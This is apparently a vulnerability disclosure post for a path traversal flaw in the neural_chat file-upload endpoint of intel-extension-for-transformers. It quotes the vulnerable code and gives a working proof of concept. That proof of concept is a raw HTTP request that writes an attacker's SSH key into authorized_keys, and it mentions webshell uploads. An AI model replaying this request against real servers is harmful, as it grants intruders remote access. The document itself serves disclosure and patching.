 ```yaml
---
layout: post
title:  "Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in intel-extension-for-transformers neural_chat"
date:  2024-05-27 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Remote Code Execution via Arbitrary File Overwrite Using Path Traversal in intel-extension-for-transformers neural_chat.


## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> v1.4.2

## Description

The post route [`/v1/askdoc/upload_files`](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L296) endpoint in intel-extension-for-transformers [neural_chat](https://github.com/intel/intel-extension-for-transformers/tree/main/intel_extension_for_transformers/neural_chat#introduction) is vulnerable to a path traversal vulnerability through the `file_paths` parameter which allows the uploading of arbitrary files. The [`file_path`](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L308C32-L308C42) is directly append to a directory path [without sanitization](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L319) and the file content is writen to dest location. An attacker can upload and overwrite **ANY** file on the filesystem. This can lead to remote code execution in many different ways.

The vulnerable function [`retrieval_add_files`](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L296C11-L296C30):

```
@router.post("/v1/askdoc/upload_files")
async def retrieval_add_files(request: Request,
                           files: List[UploadFile] = File(...),
                           file_paths: List[str] = Form(...),
                           knowledge_base_id: str = Form(...)):
    ...
    for file_path, file in zip(file_paths, files):
        filename = file.filename
        if '/' in filename:
            filename = filename.split('/')[-1]
        logger.info(f"[askdoc - upload_files] received file: {filename}, kb_id: {kb_id}")
        user_id = request.client.host
        logger.info(f'[askdoc - upload_files] user id: {user_id}')

        path_prefix = get_path_prefix(kb_id, user_id)
        upload_path = path_prefix + '/upload_dir'
        persist_path = path_prefix + '/persist_dir'
        save_path = Path(upload_path) / file_path
        save_path.parent.mkdir(parents=True, exist_ok=True)

        # save file content to local disk
        await save_file_to_local_disk(save_path, file)
```

## Proof of Concept

In this proof of concept, we will be gaining remote code execution by uploading our SSH key to the `authorized_keys` file. There are many other ways to achieve remote code execution via a file upload, such as overwriting binaries, writing to .bashrc, ....

We proof this vulnerability by logging into the `kali` user running the neural_chat service and checking that at this moment the `/home/kali/.ssh/authorized_keys` file does not exist.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
cat: /home/kali/.ssh/authorized_keys: No such file or directory
```

An attacker can now send the following request to the webserver. This request will upload the attacker's public RSA key to the `authorized_keys` file.

We start a default neural_chat server following tutorial from [https://github.com/intel/intel-extension-for-transformers/blob/main/intel_extension_for_transformers/neural_chat/README.md#installation](https://github.com/intel/intel-extension-for-transformers/blob/main/intel_extension_for_transformers/neural_chat/README.md#installation):

```
# Install system requirements
sudo apt-get update
sudo apt-get install -y python3-pip
sudo apt-get install -y libgl1-mesa-glx

# clone the project
git clone https://github.com/intel/intel-extension-for-transformers.git
cd intel-extension-for-transformers/intel_extension_for_transformers/neural_chat/

# Install python requirements
pip install -r requirements_cpu.txt
pip install fastapi==0.103.2
pip install intel-extension-for-transformers
```

Start neural_chat server, the service is open at `0.0.0.0:8000`

```
# start neural_chat server, it will download model from internet for first time, be patient.
neuralchat_server start --config_file ./server/config/neuralchat.yaml
```

Send follow post request to the server using burpsuite:

```
POST http://10.15.0.5:8000/v1/askdoc/upload_files HTTP/1.1
Host: 10.15.0.5:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvIlRA9q70krSRDb7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cookie: 
Connection: close
Content-Length: 409

------WebKitFormBoundaryvIlRA9q70krSRDb7
Content-Disposition: form-data; name="knowledge_base_id"

123
------WebKitFormBoundaryvIlRA9q70krSRDb7
Content-Disposition: form-data; name="files"; filename="blob"
Content-Type: text/plain

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
------WebKitFormBoundaryvIlRA9q70krSRDb7
Content-Disposition: form-data; name="file_paths"

/home/kali/.ssh/authorized_keys
------WebKitFormBoundaryvIlRA9q70krSRDb7--
```

The response indicates error but the file is written successfully.

```
HTTP/1.1 200 OK
Content-Length: 39
Connection: keep-alive
Content-Type: application/json
Date: Mon, 27 May 2024 07:41:53 GMT
Keep-Alive: timeout=4
Proxy-Connection: keep-alive
Server: uvicorn

"Error occurred while uploading files."
```

We can verify the success by again checking the `/home/kali/.ssh/authorized_keys` file.

```
kali@fc7d9ff6a411:/# cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.


### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e](https://huntr.com/bounties/6be8d4e3-67e6-4660-a8db-04215a1cff3e)

## Occurrences

[https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L319](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L319)

